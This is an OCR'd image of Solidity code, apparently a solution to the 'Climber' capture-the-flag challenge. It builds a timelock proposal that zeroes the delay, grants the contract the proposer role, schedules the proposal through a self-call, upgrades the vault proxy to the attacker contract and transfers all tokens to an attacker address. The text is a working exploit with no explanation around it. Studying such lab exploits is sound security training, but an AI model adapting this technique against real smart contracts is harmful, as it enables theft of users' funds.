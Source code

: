 ```solidity
        targets[0] = address(timelock);
        values[0] = 0;
        dataElements[0] = abi.encodeWithSelector(
            ClimberTimelock.updateDelay.selector,
            0
        );

        // make this contract as PROPOSER_ROLE
        targets[1] = address(timelock);
        values[1] = 0;
        dataElements[1] = abi.encodeWithSelector(
            AccessControl.grantRole.selector,
            timelock.PROPOSER_ROLE(),
            address(this)
        );

        // call this contract to schedule the proposal
        targets[2] = address(this);
        values[2] = 0;
        dataElements[2] = abi.encodeWithSelector(
            ClimberExploit.scheduleProposal.selector
        );

        // update proxy to use this contract as implementation instead
        targets[3] = address(vault);
        values[3] = 0;
        dataElements[3] = abi.encodeWithSelector(
            UUPSUpgradeable.upgradeTo.selector,
            address(this)
        );

        // take all funds
        targets[4] = address(vault);
        values[4] = 0;
        dataElements[4] = abi.encodeWithSelector(
            ClimberExploit.sweepFunds.selector
        );

        return (targets, values, dataElements);
    }

    function executeProposal() external {
        (
            address[] memory targets,
            uint256[] memory values,
            bytes[] memory dataElements
        ) = buildProposal();
        timelock.execute(targets, values, dataElements, 0);
    }

    function scheduleProposal() external {
        (
            address[] memory targets,
            uint256[] memory values,
            bytes[] memory dataElements
        ) = buildProposal();
        timelock.schedule(targets, values, dataElements, 0);
    }

    function sweepFunds() external {
        token.transfer(attacker, token.balanceOf(address(this)));
    }

```